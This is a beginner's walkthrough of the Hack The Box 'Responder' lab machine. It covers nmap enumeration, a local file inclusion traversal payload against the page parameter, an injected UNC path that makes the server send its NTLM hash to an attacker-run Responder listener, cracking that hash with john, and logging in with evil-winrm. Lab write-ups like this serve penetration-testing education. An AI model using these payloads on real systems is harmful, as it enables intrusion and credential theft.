

# Basic of penetration testing

***In our journy to learn penetration testing we takes a machines in HTB to can explain the basics of penetration***

## responder machine

- After connecting with vpn you will spawn the machine  and you will have the ip address for this machine .

- As we explained in earlier machines you must know how to download vpn and connect with HTB server and ping for IP_address.
- In the next steps you will pass to the enumaration phase.

### Enumeration

- We will begin as usualy with `nmap` tool to make a quick scan to know if there is any open ports or any vunlerable port .

- We will perform the next command in our terminal `sudo nmap -p- -sC -A -sV {IP_ADDRESS}` .
- this command will search about any tcp open port and you know there is 65535 port and this command will know if there is any open port , be patient this command will take some minutes .

- As you can see in the nmap report there is two open ports.
  
  - `80/tcp` and the service running is http .
  - `5985/tcp` and the service runnig is also http.

- Now you should noticed that we will deal with website because we found `port 80` and sercice is `http` .
  
- Let's go to our browser and search by IP_address and port number like following .

- You will got the failed access message like this .
  

- Let's know why we got this message:
  
  - First you should notice that the browser  redirected us to another domain called `unika.htb` .
   
  - This webserver is employing name-based Virtual Hosting for serving the requests .
  - **name-based Virtual Hosting** :  is a method for hosting multiple domain names (with separate handling of each name) on a single server. This allows one server to share its resources, such as memory and processor cycles, without requiring all the services to be used by the same hostname .
  - Let's solve the problem by this command `echo "10.129.128.223 unika.htb" | sudo tee -a /etc/hosts` , this very easy we just typed the IP_Address for our target and typed thd redirected domain name.
  - I will show you how `hosts file` be in you computer.
  
   
  
  - As you can see in hosts file you can type any domain name and also type the redirected Ip_address.

- Now when you reload the webpage you should get successful results like this.

 

- Now take your time in the website and try to click on every possible switch and try to know what is the response about every single action .
- you can downlad wappalyzer extension to use it when you deal with websites.

 

- As you can see we find that some useful information about the website and the server like :

  - The used programming languages is `php` .
  - the operating systems is `windows server`.
  - this informations will lead you to think about some services running in php like `include` which used for takes all the text/code/markup that exists in the specified file and loads it into the memory, making it available for use.

- stop here and take a deab breathe , I will give you two URLs to know every thing about `include` method and what is `local file Inclusion` .
  
  - `include` "https://www.php.net/manual/en/functioninclude.php".

  - `LFI`  " https://owasp.org/www-project-web-security-testing-guide/v42/4-Web_Application_Security_Testing/07-Input_Validation_Testing/11.1-Testing_for_Local_File_Inclusion " .
  
  - Don't skip those parts unil you understand them well. 

### Exploitation 

- When you click in the translation switch in the website to french or other language you will recognise from the search bar that the website have the `LFI` vulnerability .

 

- I will consider that you just learned any thing about `LFI` vulnerability from the link I just leaved for you.

- Now we know that the website have this vulnerability and As a penetester the most common file you need to go to in a windows server is `WINDOWS\System32\drivers\etc\hosts` this file have the (this file aids in the local translation of host names to IP addresses)
- The `../` string is used to traverse back a directory, one at a time , so when we use it multible times we will back to the root directory .
  
***the real attack begins***

- I will make it easy for you , go to your search browser and type `http://unika.htb/Index.php?page=../../../../../../../../windows/system32/drivers/etc/hosts` and search , you should got message like this :

 

- this message mean that the `LFI` vulnerability is available.

- In the next step we will try to make a reverse attack wiche made in sequence like following:

  - we try to send any packets to the server .
  - when the server response we capture the response and try to steal any credentials .
  - and this scenario like smb .
- I think in this option because I know that the operating system running in the server is windows and this why I toold you in the enumeration phase to user wappalyzer .

- we will use tool called "responder" and "evil-winrm".
  
  - type this `git clone https://github.com/lgandx/Responder` in your terminal to download responder .
  - now go to the downloaded folder and type the next command `sudo python3 Responder.py -I tun0` .
  - this command will make session to listen to any response from the website , don't banic I will make you understand when we getin.
  - 

   
   
  
  - Now leave this open window and open another terminal .

- now we will make our machine is the server and try to force the website to give us any credentials .
- And we already make our computer server by running responder tool .
- Let's force the website to give us credentials and this will done by doing the next step.

- Go to search bar and type in the `page` parameter `//{your_ip_address}/anything` then click enter.
- and when you open your terminal you will get the `NTLM` response wich this called the challenge.
- here "https://www.youtube.com/watch?v=xAJal6YJhCE&ab_channel=CCNAMCITP" you will learn all you need to know about `NTLM` don't continue untill you learn what is `NTLM`
- In the next step we will try to decrypt the hash.

#### Hash Cracking

- we can copy this hash in a file and hashing it with `john` .

- Now we have the hash file , let's decrypt it with john.

- Now we have all credentials we need to get in :
  - we have the username `Administrator`
  - we have the password `badminton`

- The second tool to complete the attack calle `evil-winrm` , this tool you will use it more than times this too connect you with the windows servers.
- you can seperatly read about this tool.

- This is How we we will use `evil-winrm` .

- When you successfully get in you can find the flag in the next path `C:\Users\mike\Desktop`

- And here you got the flag , and no need for fetching any tables.

- Congratulations , Assem_Ayman .